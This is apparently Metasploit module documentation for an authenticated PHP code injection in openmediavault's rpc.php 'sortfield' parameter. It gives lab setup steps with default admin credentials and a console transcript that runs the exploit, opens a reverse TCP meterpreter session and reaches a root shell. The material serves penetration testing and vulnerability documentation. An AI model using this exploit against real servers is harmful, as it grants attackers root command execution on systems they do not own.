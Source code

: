 ## Vulnerable Application

### Description

  This module exploits an authenticated PHP code injection
  vulnerability found in openmediavault before 4.1.36 and 5.x before 5.5.12 
  inclusive in the "sortfield" POST parameter of "rpc.php" page, 
  because json_encode_safe is not used in config/databasebackend.inc. 
  Successful exploitation allows arbitrary command execution 
  on the underlying operating system as root.


### Installation And Setup

  1. Download the version 5.5.11 of OpenMediaVault (i.e. [openmediavault_5.5.11-amd64.iso ISO](https://deac-ams.dl.sourceforge.net/project/openmediavault/5.5.11/openmediavault_5.5.11-amd64.iso)).
  2. Set up a new Debian machine in VirtualBox or VMWare and load the ISO. 
  Follow the install prompts and note the `root` password you choose to use. 
  Once the installation is finished, press `<Enter>` to reboot the server.
  3. Log into via the terminal using the username `root` and the password 
  you set for the `root` user during installation.
  4. On the shell and run the command `ip a` to get the current IP address.
  5. Take the IP address and browse to the URL http://*IP ADDRESS*/, then log in
  with the default administrative credentials (`admin`:`openmediavault`).

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Scenarios

### OpenMediaVault 5.5.11
```
msf6 > use exploit/unix/webapp/openmediavault_rpc_rce
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/openmediavault_rpc_rce) > show options

Module options (exploit/unix/webapp/openmediavault_rpc_rce):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  openmediavault   yes       Password to login with
   HttpUsername  admin            yes       User to login with
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                         yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT         80               yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT       8080             yes       The local port to listen on.
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                        no        The URI to use for this exploit (default is random)
   VHOST                          no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Linux Dropper)


msf6 exploit(unix/webapp/openmediavault_rpc_rce) > set rhosts 192.168.56.108
rhosts => 192.168.56.108
msf6 exploit(unix/webapp/openmediavault_rpc_rce) > set lhost 192.168.56.105
lhost => 192.168.56.105
msf6 exploit(unix/webapp/openmediavault_rpc_rce) > exploit

[*] Started reverse TCP handler on 192.168.56.105:4444
[*] 192.168.56.108:80 - Authenticating using "admin:openmediavault" credentials...
[+] 192.168.56.108:80 - Authenticated successfully.
[+] 192.168.56.108:80 - OpenMediaVault version 5.5.11 identified.
[*] 192.168.56.108:80 - Sending payload (150 bytes)...
[*] Sending stage (976712 bytes) to 192.168.56.108
[*] Meterpreter session 1 opened (192.168.56.105:4444 -> 192.168.56.108:38508) at 2020-10-07 01:16:01 -0400
[*] Command Stager progress - 100.00% done (799/799 bytes)

meterpreter > sysinfo
Computer     : 192.168.56.108
OS           : Debian 10.5 (Linux 5.7.0-0.bpo.2-amd64)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > shell
Process 1499 created.
Channel 1 created.
id
uid=0(root) gid=0(root) groups=0(root)
```
